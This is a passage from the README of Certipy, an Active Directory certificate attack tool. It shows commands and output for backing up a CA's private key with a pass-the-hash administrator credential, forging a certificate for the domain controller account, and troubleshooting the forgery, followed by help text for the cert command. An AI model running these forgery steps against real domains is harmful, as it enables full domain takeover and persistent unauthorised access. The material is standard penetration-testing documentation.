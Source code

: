 In order to forge a certificate, we need the CA's certificate and private key.

Certipy can automatically retrieve the certificate and private key with the `-backup` parameter. In order to do so, the user must have administrative privileges on the CA server.

```bash
$ certipy ca 'corp.local/administrator@ca.corp.local' -hashes :a87f3a337d73085c45f9416be5787d86 -backup
Certipy v2.0.8 - by Oliver Lyak (ly4k)

[*] Creating new service
[*] Creating backup
[*] Retrieving backup
[*] Got certificate and private key
[*] Saved certificate and private key to 'corp-CA.pfx'
[*] Cleaning up
```

With the CA's certificate and private key, we can for instance forge a certificate for the domain controller `DC$`:

```bash
$ certipy forge -ca-pfx 'corp-CA.pfx' -alt 'DC$@corp.local'
Certipy v2.0.8 - by Oliver Lyak (ly4k)

[*] Saved forged certificate and private key to 'dc.pfx'
```

The forged certificate can then be used for authentication with Certipy's `auth` command. If the KDC returns `KDC_ERR_CLIENT_NOT_TRUSTED`, it means that the forging was not correct. This usually happens because of a missing certificate revocation list (CRL) in the certificate. You can either specify the CRL manually with `-crl`, or you can use a previously issued certificate as a template with the `-template` parameter. Please note that the template will include all non-defined extensions and attributes in the new certificate, such as the subject and serial number. Certipy will not include any extended key usage in the forged certificate, which means the certificate can be used for any purpose.  

### Certificates

The `cert` command is useful for working with PFX's from other tools, such as [Certify](https://github.com/GhostPack/Certify) or [KrbRelay](https://github.com/cube0x0/KrbRelay), which creates encrypted PFXs.

```
Certipy v2.0.8 - by Oliver Lyak (ly4k)

usage: certipy cert [-h] [-pfx infile] [-password password] [-key infile] [-cert infile] [-export] [-out outfile] [-nocert] [-nokey] [-debug]

optional arguments:
  -h, --help          show this help message and exit
  -pfx infile         Load PFX from file
  -password password  Set import password
  -key infile         Load private key from file
  -cert infile        Load certificate from file
  -export             Output PFX file
  -out outfile        Output filename
  -nocert             Don't output certificate
  -nokey              Don't output private key
  -debug              Turn debug output on
```
